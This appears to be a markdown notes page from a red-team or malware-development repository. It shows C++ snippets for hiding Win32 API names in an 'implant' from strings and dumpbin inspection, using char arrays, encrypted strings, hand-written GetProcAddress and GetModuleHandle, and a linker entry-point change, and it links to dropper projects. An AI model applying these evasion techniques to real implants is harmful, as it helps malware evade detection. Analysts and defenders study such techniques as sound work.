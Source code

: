 #### Hiding win32 API strings in the code
- When running `strings <EXE>` the string `VirtualProtect` will show up. Possible to hide by making an array:

```
char aVirtualProtect[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'P', 'r', 'o', 't', 'e', 'c', 't' };

VirtualProtect_t pVirtualProtect = (VirtualProtect_t)GetProcAddress(GetModuleHandle(L"kernel32.dll"), aVirtualProtect);
``` 

- Best is to encrypt the API string, for example `VirtualProtect` from the example above and decode it in the code. See Droppers for example code
  - [AES Example](projects/Dropper_AES_Favicon_Notepad/implant.cpp)
  - [XOR Example](projects/Dropper_XOR_Favicon_Notepad/implant.cpp)

#### When GetModuleHandle fails
- When receiving errorcode `126 The specified module could not be found. The library isn't found on the system. Load it using `LoadLibrary`. Example code:

```
LoadLibraryW_t pLoadLibraryW = (LoadLibraryW_t)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
HMODULE hWinhttp = pLoadLibraryW(L"C:\\windows\\system32\\winhttp.dll");
if (!hWinhttp) {
	Error("Failed to get handle to winhttp.dll");
	exit(0);
}

// Get handles to Win32 API's using GetProcAddress
WinHttpOpen_t pWinHttpOpen = (WinHttpOpen_t)GetProcAddress(hWinhttp, "WinHttpOpen");
```
  
### Hiding GetModuleHandle & GetProcAddress
- This is possible by implementing these functions yourself. See `helpers.cpp` from [Link](projects/Dropper_AES_Favicon_Notepad/helpers.cpp)
- Then use these functions with Unicode (`L"<STRING>"`) strings to resolve the API's:

```
VirtualAlloc_t pVirtualAlloc = (VirtualAlloc_t) hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), "VirtualAlloc");
```

- If we use these functions the `GetModuleHande` & `GetProcAddress` shouldn't be in our code. But with `dumpbin /import implant.exe | findstr /i getprocad` or `dumpbin /import implant.exe | findstr /i getmoduleha` the functions still show up. This is because there is some initialization fase, compiler and linker add some additional code that prepares the process before the start. When we use `#pragma comment(linker, "/entry:WinMain")` inside our headers we can fix this. This changes the linker to entry point `WinMain`
- Use the helper functions to get pointers to the real `GetProcAddress` and `GetModuleHandle` and use these pointers to resolve the rest of the functions. 

```
GetModuleHandleA_t pGetModuleHandleA = (GetModuleHandleA_t) hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), "GetModuleHandleA");
GetProcAddress_t pGetProcAddress = (GetProcAddress_t) hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), "GetProcAddress");
		
VirtualAlloc_t pVirtualAlloc = (VirtualAlloc_t) pGetProcAddress(pGetModuleHandle(L"KERNEL32.DLL"), "VirtualAlloc");
```
